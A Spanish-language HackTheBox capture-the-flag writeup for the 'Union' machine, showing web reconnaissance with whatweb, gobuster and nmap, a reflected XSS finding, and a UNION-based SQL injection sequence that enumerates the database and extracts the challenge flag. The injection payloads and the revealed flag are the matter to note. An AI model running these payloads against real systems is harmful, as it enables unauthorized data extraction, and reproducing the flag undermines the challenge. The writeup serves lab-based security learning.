

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/union/index.html · generator: mkdocs

# Union

![](../../assets/img/Pasted_image_20260907100140.png)

Whatweb
http://10.129.96.75 [200 OK] Bootstrap[4.1.1], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.96.75], JQuery[3.2.1], Script, nginx[1.18.0]

- 80
Vemos lo que parece un

![](../../assets/img/Pasted_image_20260907101157.png)

- Corre PHP

- De primeras se me ocurre probar un xss ya que lo que le pasamos como nombre de "player" lo muestra en la etiqueta de texto de abajo

![](../../assets/img/Pasted_image_20260907103857.png)

Vemos que acontece el XSS
Veremos que podemos hacer con el XSS después de seguir investigando

- Al introducir un nombre de jugador, te redirecciona a una pág */challenge.php* que pide una flag que aún no conocemos

![](../../assets/img/Pasted_image_20260907104040.png)

- Fuzzeamos el servidor
```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```

![](../../assets/img/Pasted_image_20260907104100.png)

- /config.php -> No muestra nada a priori
- /firewall.php -> Access denied

- Vamos a probar más cosas
SQLi
```sql
' or 1=1-- -
```

![](../../assets/img/Pasted_image_20260907114449.png)

- No muestra la parte de *"Complete de challenge **here**"* -> Parece que bypassea u omite parte de la información
```bash
' union select database();--
```

![](../../assets/img/Pasted_image_20260907112821.png)

Vemos la base de datos **november**

- Lanzaremos las queries para exfiltrar información
```sql
' union select group_concat(schema_name) from information_schema.schemata-- -
```

mysql,information_schema,performance_schema,sys,november

```sql
' union select group_concat(table_name) from information_schema.tables where table_schema='november'-- -
```

flag,players

```sql
' union select group_concat(column_name) from information_schema.columns where table_schema='november' and table_name ='flag'-- -
```

- flag: one
- players: player

```sql
' union select group_concat(one) from november.flag-- -
```

UHC{F1rst_5tep_2_Qualify}

- Introducimos la flag para el usuario *qarlg* por ejemplo
Nos redirige a *firewall.php* y ahora si vemos contenido

![](../../assets/img/Pasted_image_20260907120325.png)

- En principio la máquina no tiene puerto ssh abierto, escanearemos de nuevo a consciencia el puerto 22 en la máquina para ver si se ha levantado el servicio ssh para nuestra ip
```bash
sudo nmap -p22,80 --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.96.75
```

![](../../assets/img/Pasted_image_20260907120743.png)

Efectivamente vemos que ssh se ha levantado para nuestra IP aunque no disponemos de credenciales a priori
